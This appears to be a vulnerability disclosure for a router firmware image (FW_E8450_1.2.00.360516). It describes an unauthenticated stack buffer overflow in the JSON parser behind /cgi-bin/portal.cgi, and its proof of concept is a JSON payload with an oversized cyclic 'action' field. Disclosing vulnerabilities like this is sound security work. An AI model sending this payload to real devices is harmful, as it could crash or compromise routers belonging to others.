


## Firmware

Firmware version:FW_E8450_1.2.00.360516_prod_signed.img

## Analyze

Unauthenticated buffer overflow

The vulnerability is located at address 0x423020. The sub_422eb8 function is an json parsing function. The parsed fields(action) are copied to the stack using strncpy without length verification.



## Poc

Send the following data to this url to trigger the vulnerability:  http://target/cgi-bin/portal.cgi 

```json
{"action":"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaaj","page":"123"}
```

